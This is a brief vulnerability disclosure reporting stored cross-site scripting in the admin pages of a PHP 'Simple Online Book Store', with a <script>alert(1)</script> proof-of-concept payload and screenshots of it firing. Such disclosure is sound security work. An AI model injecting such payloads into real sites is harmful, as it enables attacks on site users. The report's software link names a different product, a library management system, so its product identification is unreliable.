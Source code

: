 # Simple Online Book Store-XSS



### Date: 

> ### 2022-08/05



### Exploit Author:

> ### anx0ing@gmail.com



### Vendor Homepage: 

> [https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

> https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html



### Version: 

> ### 1.0



### /admin_book.php

`Title`、`Author`、`Description`Parameters have XSS

### /admin_add.php

> add xss code

```
<script>alert(1)</script>
```

![image-20220805020553454](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220805020553454.png)

Triggered in admin_book.php

![image-20220805021508840](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220805021508840.png)
